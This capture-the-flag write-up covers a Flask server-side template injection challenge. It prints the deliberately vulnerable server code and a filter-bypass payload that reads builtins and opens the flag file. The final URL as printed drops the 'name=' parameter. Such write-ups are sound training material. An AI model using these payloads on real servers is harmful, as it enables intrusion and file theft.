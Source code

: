 ```yaml
---
title: "OSU League 2020/2021 - almostnopship0 Writeup"
date: 2021-02-07
tags:
  - osuleague
  - ctf
  - security
---
```


For this web challenge, we are given a link to a website that bears a striking resemblance to a certain DEF CON challenge. ~~pew pew~~  

{{< figure src="/img/almost-1.png" >}}

We are told the location of the flag and are provided the source code for the server, along with a nice text box where we can enter our team name. 

{{< figure src="/img/almost-2.png" >}}

Cool! Four P's are better than three. Now Let's take a look at that source code:

```python
from flask import Flask, render_template, request, send_file, render_template_string

app = Flask(__name__)

# scary names!!
blacklist1 = '_[]\'\"\\%'
blacklist2 = ['mro', 'config', 'base', 'join', 'os', 'subprocess']

@app.route('/')
def root():
    name = request.args.get('name')

    if name: 
        name = name.lower()
        if any([c in blacklist1 for c in name]) or any([b in name for b in blacklist2]):
            name = 'stop it :('

    index = render_template('index.html', name=name)
    return render_template_string(index)

@app.route('/src', methods=['GET'])
def src():
    return send_file('server.py')

# todo run NOPs
```

Interesting. We can see that some sort of blacklist has been implemented that prevents us from using certain character.  Let's tests that out and see if it works:

{{< figure src="/img/almost-3.png" >}}

Yep, so our team name wasn't able to go through, what a bummer.  
At this point I started to do some research on what I could possibly do to read the flag off of the server. I knew that it had to be a server side injecton, so I looked into that.  Eventually I came across what is know as a Flask SSTI, a type of server side template injection that Flask can be vulnerable to. I gave the input a simple template of `{{request.args}}` and voila.

{{< figure src="/img/almost-4.png" >}}

Now it's time to start crafting a payload.  We know that we can inject templates in the team name box, but those will all be checked against the blacklist. Maybe there is a way to add additional parameters that could then be read using `request.args`, that way the blacklisted items aren't actually part of `name`, but instead some other variable that we created.  Let's try it out:

`http://ctf-league.osusec.org:31311/?name={{request.args.param1}}&param1=%%Scary_Name%%` 

{{< figure src="/img/almost-5.png" >}}

And there it is. We now have a way to bypass the filter.  Now we just need to figure out how we are going to get the flag. After doing some more research, we were able to find that we could use `request.application` to access python's internal built-in functions. We eventually settled on this for what we wanted to be excecuted on the server:

`request.application.__globals__.get(__builtins__).open(/flag)`

To transform this into a usable payload, however, we had to set it up in such a way so that we could get around the blacklist. We were able to eventually come up with a method to transform any command into a usable payload:

```
a.b = request.args.a|attr(request.args.b)
a(b) = reqiest.args.a(request.args.b)
```

With this we can start to seperate out our command into sections:

```
request.application + __globals__
get() with paramater __builtins__
open() with paramerter __flag__
```

And putting the whole payload together:

`http://ctf-league.osusec.org:31311/?{{(request.application|attr(request.args.param1)).get(request.args.param2).open(request.args.param3).read()}}&param1=__globals__&param2=__builtins__&param3=/flag`  

We get the flag!

{{< figure src="/img/almost-flag.png" >}}

`osu{but_mY_bLAcKL1st_W4S_so_g00d:(}` 
